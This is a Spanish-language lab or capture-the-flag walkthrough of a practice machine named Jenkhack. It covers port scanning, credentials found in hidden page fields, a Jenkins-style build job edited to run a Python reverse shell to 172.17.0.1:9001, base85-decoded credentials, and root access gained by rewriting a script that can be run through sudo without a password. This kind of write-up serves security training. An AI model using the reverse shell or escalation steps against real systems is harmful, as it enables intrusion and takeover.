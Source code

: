 # Jenkhack

Con un `nmap` vemos los puertos abiertos de la máquina. Todos son relacionados con servicios web.

<figure><img src="../../.gitbook/assets/Pasted image 20250628001136.png" alt=""><figcaption></figcaption></figure>

Si accedemos a la web del puerto 80, no encontramos ninguna funcionalidad ni botones relevantes.

<div align="left"><figure><img src="../../.gitbook/assets/Pasted image 20250628001225.png" alt=""><figcaption></figcaption></figure></div>

Procedemos a echarle un vistazo a la página https, donde nos encontramos un formulario de login.

<div align="left"><figure><img src="../../.gitbook/assets/Pasted image 20250628001419.png" alt="" width="419"><figcaption></figcaption></figure></div>

En el puerto 8080 se encuentra el mismo formulario, solo que sin https. Encontramos unos campos ocultos en el código fuente de la primera web que examinamos:

<div align="left"><figure><img src="../../.gitbook/assets/Pasted image 20250628002042.png" alt=""><figcaption></figcaption></figure></div>

Si utilizamos de credenciales `user = jenkins-admin` y `password = cassandra`, nos da acceso a un panel de administración:

<div align="left"><figure><img src="../../.gitbook/assets/Pasted image 20250628002205.png" alt=""><figcaption></figcaption></figure></div>

La página tiene un proyecto llamado `admin`. Este proyecto tiene una función para correr una build que nos permite ejecutar el código que queramos. Esto se conoce porque por defecto ejecuta un `whoami` que se puede configurar en otra sección del panel.

<figure><img src="../../.gitbook/assets/Pasted image 20250628002817.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/Pasted image 20250628002516.png" alt=""><figcaption></figcaption></figure>

Si cambiamos este `whoami` por una reverse shell, podemos tener acceso al user de la máquina. En este caso, las reverse shell típicas de `bash -i` no funcionaban, así que opté por una reverse shell en `python`:

```bash
export RHOST="172.17.0.1";export RPORT=9001;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'
```

<div align="left"><figure><img src="../../.gitbook/assets/Pasted image 20250628003721.png" alt=""><figcaption></figcaption></figure></div>

Una vez dentro de la máquina, si nos acordamos al principio, teníamos información que podía ser relevante y no hemos usado. Esto es, el dominio `jenkhack.hl`. Buscando en `/var/www/` encontramos la carpeta de este dominio oculto:

<div align="left"><figure><img src="../../.gitbook/assets/Pasted image 20250628010416.png" alt=""><figcaption></figcaption></figure></div>

Si accedemos, encontramos un fichero con unas credenciales que al parecer están codificadas.

<figure><img src="../../.gitbook/assets/Pasted image 20250628010503.png" alt=""><figcaption></figcaption></figure>

Si pasamos la contraseña por la herramienta [CyberChef](https://gchq.github.io/CyberChef/):

<div align="left"><figure><img src="../../.gitbook/assets/Pasted image 20250628010701 (1).png" alt=""><figcaption></figcaption></figure></div>

Vemos que estaba codificada en `base85`. Utilizamos la contraseña y el usuario para loguearnos desde dentro de la máquina:

<div align="left"><figure><img src="../../.gitbook/assets/Pasted image 20250628010837.png" alt=""><figcaption></figcaption></figure></div>

Vamos a ejecutar `sudo -l` para ver qué permisos tenemos:

```bash
jenkhack@3c48dd6f4804:~$ sudo -l
Matching Defaults entries for jenkhack on 3c48dd6f4804:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User jenkhack may run the following commands on 3c48dd6f4804:
    (ALL : ALL) NOPASSWD: /usr/local/bin/bash
```

El usuario `jenkhack` tiene permiso para ejecutar `/usr/local/bin/bash` como cualquier usuario, sin necesidad de contraseña (`NOPASSWD`). Analizando este binario, encontramos lo siguiente:

```bash
jenkhack@3c48dd6f4804:~$ /usr/local/bin/bash
Welcome to the bash application!
Running command...
This is the bash script running.
```

<figure><img src="../../.gitbook/assets/Pasted image 20250628011351.png" alt=""><figcaption></figcaption></figure>

Este binario ejecuta un script de bash que podemos modificar para que ejecute lo que queramos. Como no nos deja modificarlo porque no podemos correr `nano` con `sudo`, podemos borrarlo y crear uno nuevo:

```bash
echo 'exec /bin/bash' > /opt/bash.sh
chmod +x /opt/bash.sh 
sudo /usr/local/bin/bash
```

<div align="left"><figure><img src="../../.gitbook/assets/Pasted image 20250628012355.png" alt=""><figcaption></figcaption></figure></div>
